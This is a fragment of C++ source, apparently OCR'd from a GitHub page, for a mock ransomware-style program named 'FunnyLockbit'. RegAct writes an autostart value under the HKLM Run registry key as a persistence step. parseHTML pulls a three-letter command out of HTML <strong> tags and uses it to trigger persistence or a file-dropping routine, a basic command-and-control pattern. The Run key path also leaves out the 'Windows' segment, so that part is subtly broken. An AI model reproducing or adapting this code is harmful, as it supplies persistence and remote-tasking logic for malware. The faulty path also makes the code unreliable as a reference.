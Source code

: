 ```cpp

  }

  // Close the file handle
  CloseHandle(hFile);

  printf("\nFile created and data written successfully.\n");

}

void RegAct() {

  HKEY hKey;
  const char* subKey = "SOFTWARE\\Microsoft\\CurrentVersion\\Run";
  const char* valueName = "LockbitSupp~lol";
  const char* valueData = "You have been infected with FunnyLockbit!";

  LONG result = RegCreateKeyExA(HKEY_LOCAL_MACHINE, subKey, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE, NULL, &hKey, NULL);
  if (result == ERROR_SUCCESS) {
    // Set the value
    result = RegSetValueExA(hKey, valueName, 0, REG_SZ, (BYTE*)valueData, strlen(valueData) + 1);
    if (result == ERROR_SUCCESS) {
      printf("Value added correctly!");
    }
    else {
      printf("\nError %x\n", GetLastError());
    }
    // Close the key
    RegCloseKey(hKey);
  }
  else {
    printf("Failed to open or create registry key. Error code: %x", GetLastError());
  }
};


void parseHTML(wchar_t* html) {

  const wchar_t* start_tag = L"<strong>";
  const wchar_t* pos = wcsstr(html, start_tag);
  if (pos != NULL) {

    pos += wcslen(start_tag);
    wchar_t word[4] = { 0 };


    wcsncpy_s(word, pos, 3);

    if (wcscmp(word, L"prs") == 0) {

      RegAct();
    }
    else if (wcscmp(word, L"drp") == 0) {

      FileAct();
    }
  }
}




```